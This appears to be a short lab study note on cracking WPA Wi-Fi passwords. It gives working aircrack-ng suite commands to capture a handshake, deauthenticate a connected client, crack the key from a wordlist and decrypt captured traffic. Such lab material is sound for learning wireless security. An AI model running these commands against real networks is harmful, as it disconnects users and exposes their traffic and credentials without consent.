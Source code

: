 # Cracking Auth Hash

we need to capture a WPA 4-way handshake between the AP and a real client.

After putting our wlan0 interface in monitor mode, we now have an interface called wlan0mon. We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.

```
sudo airodump-ng wlan0mon
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Let's update our airodump-ng command to incorporate this information and save the packets to a capture file. It is critical that we are on the same channel as the AP. If we're not, our attempts to deauthenticate the client and capture the handshake will likely fail.

```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```

With airodump-ng now saving packets to a file (the initial execution outputs to **wpa-01.\***, the second to **wpa-02.\***, etc.), we'll use **aireplay-ng** to deauthenticate, or disconnect, the target AP and its connected client.

```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```

Now that we have captured a handshake, cracking it is relatively easy. We run **aircrack-ng** against our recently created capture file, **wpa-01.cap**. We'll use a list of commonly used passwords

```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```

To confirm the key is correct, let's decrypt our traffic with **airdecap-ng**.

```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

